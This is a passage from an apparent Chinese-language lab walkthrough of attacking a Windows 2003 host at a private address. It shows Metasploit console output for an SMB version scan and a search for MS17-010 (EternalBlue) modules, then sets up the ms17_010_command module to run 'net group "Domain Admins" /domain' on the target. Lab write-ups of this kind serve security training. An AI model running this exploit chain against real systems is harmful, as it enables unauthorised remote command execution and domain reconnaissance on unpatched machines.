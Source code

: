 ```bash
msf6 auxiliary(scanner/smb/smb_version) > run

[*] 192.168.52.141:445    - SMB Detected (versions:1) (preferred dialect:) (signatures:optional)
[+] 192.168.52.141:445    -   Host is running Windows 2003 (build:3790) (name:ROOT-TVI862UBEH) (domain:GOD)
[*] 192.168.52.141:       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

永恒之蓝打他，跑个ipconfig。

> use auxiliary/admin/smb/ms17_010_command 
>
> set rhosts 192.168.52.141 
>
> set command 命令
>
> run

```bash
msf6 auxiliary(scanner/smb/smb_version) > search ms17-010

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce

msf6 auxiliary(scanner/smb/smb_version) > use 2
msf6 auxiliary(admin/smb/ms17_010_command) > options 

Module options (auxiliary/admin/smb/ms17_010_command):

   Name                  Current Setting                     Required  Description
   ----                  ---------------                     --------  -----------
   COMMAND               net group "Domain Admins" /domain   yes       The command you want to execute on the remote host
   DBGTRACE              false                               yes       Show extra debug trace info
   LEAKATTEMPTS          99                                  yes       How many times to try to leak transaction
   NAMEDPIPE                                                 no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/da  yes       List of named pipes to check
                         ta/wordlists/named_pipes.txt
   RHOSTS                                                    yes       The target host(s), see https://github.com/rapid7/metasploit
                                                                       -framework/wiki/Using-Metasploit
   RPORT                 445                                 yes       The Target port (TCP)
```